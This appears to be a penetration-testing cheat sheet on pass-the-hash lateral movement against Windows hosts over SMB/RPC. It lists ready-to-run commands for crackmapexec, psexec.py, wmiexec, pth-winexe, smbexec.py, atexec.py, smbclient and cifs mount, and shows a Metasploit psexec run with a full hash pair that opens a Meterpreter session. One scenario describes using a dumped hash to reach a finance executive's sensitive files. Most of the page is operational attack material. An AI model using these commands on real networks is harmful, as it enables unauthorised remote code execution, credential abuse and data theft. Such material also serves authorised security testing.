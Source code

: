 # SMB/RPC (PTH)

### Validate hash with crackmapexec

```bash
crackmapexec <IP> -u <USER> -H <HASH> --local # Local accounts
crackmapexec <IP> -u <USER> -H <HASH> -d <DOMAIN> # Domain accounts
```

### SMB/RPC (Pass The Hash)

{% tabs %}
{% tab title="psexec.py" %}
```bash
psexec.py <USER>:@<IP/COMPUTER> -hashes <NTLM HASH>
psexec.py '<DOMAIN>\<USER>:@<IP/COMPUTER>' -hashes <NTLM HASH>
```
{% endtab %}

{% tab title="wmiexec.py" %}
Requires SMB (445) and RPC (135):

```bash
wmiexec <DOMAIN>/<USERNAME>%<HASH>@<IP/COMPUTER>
wmiexec <USERNAME>@<IP/COMPUTER> -hashes <NTLM HASH>
wmiexec <DOMAIN>/<USERNAME>@<IP/COMPUTER> -hashes :<NTHASH>
```
{% endtab %}

{% tab title="pth-winexe" %}
```bash
pth-winexe -U <DOMAIN>/<USERNAME>%<HASH> //<IP/COMPUTER> cmd.exe # <HASH> = LM:NT
pth-winexe --system -U <DOMAIN>/<USERNAME>%<HASH> //<IP/COMPUTER> cmd.exe
pth-winexe -U WORKGROUP/<USERNAME>%<HASH> //<IP/COMPUTER> cmd.exe # Local
```
{% endtab %}

{% tab title="smbexec.py" %}
```bash
smbexec.py <DOMAIN>/<USER>@<IP/COMPUTER> -hashes :<NTHASH>
```
{% endtab %}

{% tab title="atexec.py" %}
Execute commands via the Task Scheduler (using `\pipe\atsvc` via SMB):

```bash
atexec.py -hashes <LM:NT> <USERNAME>@<IP/COMPUTER> "whoami"
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Metasploit (psexec module)" %}
```bash
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
SMBPass => e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit
[*] Sending stage (719360 bytes)
[*] Meterpreter session 1 opened (192.168.57.133:443 -> 192.168.57.131:1045)
```
{% endtab %}

{% tab title="smbclient" %}
Often you may not have administrative access to a system, despite having recovered valid hashes. Consider the following scenario: You have compromised a single host and have dumped hashes. One of the hashes belongs to the head of finance. He has no administrative access to the infrastructure, but he has access to lots of sensitive data on the file server. smbclient has a `-pw-nt-hash` flag that you can use to pass an NT Hash.

```bash
smbclient //<IP>/<SHARED> -U <USER> --pw-nt-hash <HASH> -W <DOMAIN>
smbclient //<IP>/<SHARED> -U '<USER>&<NT HASH>' --pw-nt-hash
```
{% endtab %}

{% tab title="mount" %}
On Linux a Windows share can be mounted to a particular mount point in the local directory tree using the cifs mount type within the mount tool.

Although we can pass the hash using `smbclient`, its FTP-like interface can be limiting. It is often much more useful to mount a share, that way you can interact with it through the Linux command line or through a GUI file explorer. For a greater user experience, you can even expose this mount point with SSHFS, so you can browse the share from the comfort of your local Windows or Mac file explorer.

When mounting a share you cannot pass the hash, but you can connect with a Kerberos ticket (which you can get by passing the hash! → LINK TO: get Ticket). Use a command similar to the following to mount a share. If it fails with the error "No such file or directory" it usually means that your ticket is not where it is expected to be or that permissions do not allow the mount to see it.

```bash
mount -t cifs -o sec=krb5,vers=3.0 '//SERVER.DOMAIN.LOCAL/SHARE' /mnt/share
```
{% endtab %}
{% endtabs %}
